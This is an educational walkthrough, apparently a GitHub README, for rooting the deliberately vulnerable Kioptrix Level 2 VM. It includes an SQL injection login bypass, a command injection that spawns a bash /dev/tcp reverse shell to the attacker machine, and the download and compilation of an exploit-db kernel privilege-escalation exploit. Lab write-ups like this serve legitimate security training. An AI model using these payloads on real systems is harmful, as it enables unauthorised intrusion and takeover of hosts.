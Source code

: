 # Summary
This document will walk you through the procedure (step-by-step) to root the machine Kioptrix Level 2.
The Goal is to gain "root" access in the target machine.

**WARNING:** This walk through is to be used for learning/educational purposes only.

**NOTE:**
Kioptrix Level 2 is a vulnerable VM, which will be our target machine.
Kali Linux (2020) is the VM being used to carry out the pentesting, a.k.a. the attacker machine.
Both VMs are being hosted on VM Workstation.

# WalkThrough

**Step 1:**
Turn on the Target Machine. Run netdiscover on local machine (Attacker's) on interface eth0
> netdiscover -i eth0

Target Machine IP found to be `192.168.1.250`

**Step 2:**
Run NMap to scan target machine for open ports. 
> nmap -sC 192.168.1.250

Ports found open: 22, 80, 111, 443, 3306

**Step 3:**
Visit `http://192.168.1.250/index.php` on the browser. We come across this login page.
![remote_sysadmin_login.png](remote_sysadmin_login.png)

We try the `admin:admin` combination for the `username:password` and it doesn't work.
Attempting a SQL Injection, we set the username as `admin' or '1'='1` and see if it works.
We are through, to the next page

**Step 4:**
The next page looks like this.

![admin_webconsole.png](admin_webconsole.png)

The source code for this page says that it is a  `pingit` feature, where the machine IP mentioned in the input field would be pinged and the browser would receive a response.

We enter `localhost` as the input and we receive the following response.
![localhost_response.png](localhost_response.png)

**Step 5:**
Next step is to spawn a reverse shell to acquire prolonged shell access to the target machine. We can concatenate shell commands one after another to achieve this. Visit `http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` to find the one-liner reverse shell command.

The command is `bash -i >& /dev/tcp/<attacker's IP>/<attacker's Port> 0>&1`

**Step 6:**
On the local machine, we use netcat to listen to port 443
> nc -lvp 443

Also, in the input field we write `localhost; bash -i >& /dev/tcp/192.168.1.200/443 0>&1`, and hit Enter.

![reverse_shell.png](reverse_shell.png)

**Step 7:**
Once we have acquired Shell access, we see that current user is `apache`. In order to get root access, we should launch a privilege escalation attack. To determine which exploit to use, we find the kernel information of the target machine.

![target_kernel.png](target_kernel.png)

We search for available exploits and find one available at `https://www.exploit-db.com/exploits/9542`. We download it using the following command.
> wget https://www.exploit-db.com/exploits/9542 -O exploit.c

The exploit is downloaded on the attacker's machine.

**Step 8:**
Since the exploit cannot be downloaded directly onto the target machine, we will initiate a Simple HTTP server on the attacker's machine.
![httpserver_init.png](httpserver_init.png)

And on the target machine, we run the following command to download the exploit.
> wget http://192.168.1.200:8000/exploit.c 

**Step 9:**
Once the exploit is downloaded onto the target machine, it is compiled using the following command.
> gcc -o exploit exploit.c

Once compiled, we run the exploit file, and get root access.

![exploit_run.png](exploit_run.png)








